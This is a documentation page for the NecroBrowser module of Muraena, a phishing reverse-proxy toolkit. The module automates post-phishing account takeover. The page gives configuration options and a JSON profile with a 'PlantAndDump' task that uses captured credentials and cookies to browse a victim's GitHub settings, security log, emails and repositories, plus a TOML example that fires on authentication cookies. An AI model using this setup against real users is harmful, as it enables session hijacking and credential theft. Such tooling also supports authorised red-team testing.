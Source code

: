```yaml
---
title: NecroBrowser
layout: default
permalink: /modules/necrobrowser
nav_order: 2
parent: Supported Modules
---
```


# NecroBrowser

NecroBrowser is a module that allows Muraena to interact with the [NecroBrowser](https://necrobrowser.phishing.click/)
to automate the post-exploitation phase of a phishing campaign.

## Configuration Options

### Enable
Enables or disables the necrobrowser module. 

### Endpoint
`endpoint` specifies the URL of the NecroBrowser API endpoint.

#### Profile
`profile` specifies the profile to be used for the NecroBrowser API endpoint.
The profile is a file containing the NecroBrowser JSON configuration.

For example, the following configuration specifies the profile `default`:

### Sensitive Locations
`urls` allows to specify the URLs that will be considered sensitive.
The URLs are specified for both requests and responses, as follows:

- **`AuthSession`**: Specifies the URLs that will be considered sensitive for requests.
- **`AuthSessionResponse`**: Specifies the URLs that will be considered sensitive for responses.


```json
{
    "name": "InstrumentGitHub",
    "task": {
        "type": "github",
        "name": [ "PlantAndDump" ],
        "params": {
            "fixSession": "https://github.com/settings/profile",
            "urls": [
                "https://github.com/settings/profile",
                "https://github.com/settings/security-log",
                "https://github.com/settings/emails",
                "https://github.com/settings/repositories"
            ],

            "credentials": %%%CREDENTIALS%%%
        }
    },
    "cookies": %%%COOKIES%%%
}
```

The following placeholders are supported:

- **`%%%CREDENTIALS%%%`**: The credentials to be used
- **`%%%COOKIES%%%`**: The cookies to be used
- **`%%%TRACKER%%%`**: The tracker identifier used to track the user

### Trigger
The `trigger` section specifies the events that will trigger the NecroBrowser module.

- **`Type`**: Specifies the where to monitor: either `path` or `cookie`.
If `path` is specified, the trigger will be activated on `authSessionResponse` URLs.
While if `cookie` is specified, the trigger will be activated if the `values` are found in the cookies.
- **`Values`**: Specifies the cookie names to monitor.
- **`Delay`**: Specifies the delay in seconds before the trigger is activated.


## Examples

Below is an example configuration demonstrating the setup for user tracing and sensitive data capture:

```toml
[necrobrowser]
    enable = true
    endpoint = "http://10.0.0.2:3000/instrument"
    profile = "./config/instrument.necro"
    
    [necrobrowser.urls] 
       authSession = ["/settings/profile"]
       authSessionResponse = ["/privacypolicy"]

    [necrobrowser.trigger]
        type = "cookie"
        values = ["ESAUTHENTICATED"] 
        delay = 5
```